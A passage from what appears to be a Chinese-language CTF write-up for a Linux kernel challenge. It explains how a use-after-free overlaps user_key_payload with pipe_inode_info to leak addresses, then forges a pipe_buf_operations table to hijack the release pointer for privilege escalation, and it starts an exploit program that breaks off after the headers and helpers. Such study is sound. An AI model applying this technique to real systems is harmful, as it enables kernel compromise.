 同時內核中會分配一個 `pipe_buffer` 結構體數組，每個 `pipe_buffer` 結構體對應一張用以存儲數據的內存頁：

```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```

`pipe_buf_operations` 爲一張函數表，當我們對管道進行特定操作時內核便會調用該表上對應的函數，例如當我們關閉了管道的兩端時，會觸發 `pipe_buffer->pipe_buffer_operations->release` 這一指針，由此我們便能控制內核執行流，從而完成提權。

```c
struct pipe_buf_operations {
	//...

	/*
	 * When the contents of this pipe buffer has been completely
	 * consumed by a reader, ->release() is called.
	 */
	void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
```

那麼這裏我們可以利用 UAF 使得 `user_key_payload` 與 `pipe_inode_info` 佔據同一個 object， `pipe_inode_info` 剛好會將 `user_key_payload->datalen` 改爲 `0xFFFF` 使得我們能夠繼續讀取數據，從而讀取 `pipe_inode_info`  以泄露出 `pipe_buffer` 的地址。

而  `pipe_buffer` 是動態分配的，因此我們可以利用題目功能預先分配一個對象作爲 `pipe_buffer` 並直接在其上僞造函數表即可。

> 對於筆者來說比較麻煩的倒是找棧遷移的 gadget...好在最後還是成功找到了一些合適的 gadget。

### EXPLOIT

最後的 exp 如下：

```c
#define _GNU_SOURCE
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <stdio.h>
#include <signal.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <ctype.h>
#include <stdint.h>

/**
 * Utilities
 */

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}

```